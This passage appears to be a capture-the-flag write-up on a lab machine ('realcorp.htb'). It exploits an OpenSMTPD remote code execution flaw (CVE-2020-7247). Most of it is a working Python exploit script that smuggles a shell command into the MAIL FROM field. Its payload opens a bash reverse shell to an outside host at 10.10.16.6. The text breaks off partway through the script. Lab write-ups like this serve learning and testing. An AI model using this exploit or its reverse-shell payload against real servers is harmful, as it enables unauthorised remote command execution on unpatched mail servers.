 We have just one port open at 25 which is SMTP. I lookup for any available exploits and we get an [unauthenticated RCE!](https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/). The vulnerability was basically a command chaining due to the fact that the content of mail body were being supplied to a shell command.

But we needed to make some changes to the script first. We change the host, the command to execute and finally change the MAILTO from root to j.nakazawa .

{%highlight text%}
import socket, time
import sys
#https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt
#HOST = input("what is the ip address of the host?: ")   # The remote host , gimme as raw_input
HOST="10.241.251.113"
PORT = 25              # smtp port
s = None
#writeto = input("Which file do you want to write to?: ")#raw inputen
#writewhat = input("What do you want to write to the file?: ")
payload = b"""\r\n
#0\r\n
#1\r\n
#2\r\n
#3\r\n
#4\r\n
#5\r\n
#6\r\n
#7\r\n
#8\r\n
#9\r\n
#a\r\n
#b\r\n 
#c\r\n
#d\r\n
bash -c 'bash -i >& /dev/tcp/10.10.16.6/1234 0>&1'
.
"""
for res in socket.getaddrinfo(HOST, PORT, socket.AF_UNSPEC, socket.SOCK_STREAM):
    af, socktype, proto, canonname, sa = res
    try:
        s = socket.socket(af, socktype, proto)
    except OSError as msg:
        s = None
        continue
    try:
        s.connect(sa)
    except OSError as msg:
        s.close()
        s = None
        continue
    break
if s is None:
    print('could not open socket')
    sys.exit(1)
with s:
	data = s.recv(1024)
	print('Received', repr(data))
	time.sleep(1)
	print('sending')
	s.send(b"helo realcorp.htb\r\n")
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(b"MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>\r\n")
	time.sleep(1)
	data = s.recv(1024)